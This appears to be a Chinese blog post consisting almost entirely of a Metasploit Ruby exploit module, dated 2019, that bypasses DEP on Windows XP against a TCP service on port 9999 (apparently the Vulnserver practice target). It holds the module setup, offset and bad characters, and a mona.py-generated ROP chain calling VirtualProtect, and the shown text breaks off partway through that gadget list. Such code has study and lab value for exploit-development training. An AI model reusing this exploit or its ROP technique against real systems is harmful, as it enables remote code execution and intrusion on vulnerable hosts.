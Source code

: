 不多说，直接上代码：

```
##
# Author 冰河
# Date 2019-01-16
# Description Metasploit绕过DEP
##

require 'msf/core'
class Metasploit3 < Msf::Exploit::Remote
  Rank = NormalRanking
  
  include Msf::Exploit::Remote::Tcp
  
  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'DEP Bypass Exploit',
      'Description'    => %q{
        DEP Bypass Using ROP Chains Example Module
      },
      'Platform'       => 'Windows',
      'Author'         => ['binghe'],
      'Payload'        =>
        {
          'space'     => 312,
          'BadChars'  => "\x00"
        },
       'Targets'      => 
        [
          ['Windows XP', {'Offset'  => 2006}]
        ],
        'DisclosureDate'  => '2019-01-16'))
     
     register_options(
      [
        Opt::RPORT(9999)
      ],self.class)
  end
  
   def create_rop_chain()

    # rop chain generated with mona.py - www.corelan.be
    rop_gadgets = 
    [
      0x77bfc038,  # POP ECX # RETN [msvcrt.dll] 
      0x6250609c,  # ptr to &VirtualProtect() [IAT essfunc.dll]
      0x77d5373d,  # MOV EAX,DWORD PTR DS:[ECX] # RETN [USER32.dll] 
      0x7c96d192,  # XCHG EAX,ESI # RETN [ntdll.dll] 
      0x77c11c54,  # POP EBP # RETN [msvcrt.dll] 
      0x625011bb,  # & jmp esp [essfunc.dll]
      0x77c04fcd,  # POP EAX # RETN [msvcrt.dll] 
      0xfffffdff,  # Value to negate, will become 0x00000201
      0x77e6d222,  # NEG EAX # RETN [RPCRT4.dll] 
      0x77dc560a,  # XCHG EAX,EBX # RETN [ADVAPI32.dll] 
      0x77f01564,  # POP EAX # RETN [GDI32.dll] 
      0xffffffc0,  # Value to negate, will become 0x00000040
      0x77e6d222,  # NEG EAX # RETN [RPCRT4.dll] 
      0x77ef24c8,  # XCHG EAX,EDX # RETN [GDI32.dll] 
      0x77c0eb4f,  # POP ECX # RETN [msvcrt.dll] 
      0x7c99f17e,  # &Writable location [ntdll.dll]
      0x77c17641,  # POP EDI # RETN [msvcrt.dll] 
      0x77e6d224,  # RETN (ROP NOP) [RPCRT4.dll]
      0x77c04fcd,  # POP EAX # RETN [msvcrt.dll] 
```